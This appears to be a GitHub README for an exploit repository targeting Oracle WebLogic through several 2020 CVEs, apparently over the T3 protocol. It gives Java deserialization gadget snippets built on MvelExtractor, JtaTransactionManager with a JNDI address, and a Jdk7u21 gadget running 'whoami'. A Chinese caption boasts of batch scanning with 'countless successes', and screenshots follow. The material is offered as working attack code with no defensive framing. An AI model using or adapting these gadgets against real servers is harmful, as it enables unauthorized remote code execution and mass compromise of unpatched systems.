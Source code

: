 # Weblogic 1day
CVE_2020_2546 CVE-2020-2915 CVE-2020-2801  CVE-2020-2798  CVE-2020-2883 CVE-2020-2884 CVE-2020-2950 WebLogic T3 payload exploit pot python3

### code n1
```
MVEL.compileExpression
MvelExtractor o = new MvelExtractor("xxx;");
		ObjectOutputStream oo = new ObjectOutputStream(System.out); 
		oo.writeObject(o);
		oo.flush();
```

### code1
```
public MsgOutput getObject(final String command) throws Exception {
	  String jndiAddress = command;
		JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
		jtaTransactionManager.setUserTransactionName(jndiAddress);
		MsgOutput remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), MsgOutput.class);
    return remote;
  }
```

### code2
```
public IORDelegate getObject(final String command) throws Exception {
IORDelegate ior = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", new Jdk7u21().getObject("whoami")), IORDelegate.class);
    return ior;
  }
```

## CVE-2020-2546 payload
#### 批量一波，成功无数
<img width="621" alt="image" src="https://user-images.githubusercontent.com/18223385/75693161-8c550300-5ce1-11ea-9c28-3e81a6c72d28.png">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/18223385/75693276-abec2b80-5ce1-11ea-9e69-9adee78edee7.png">

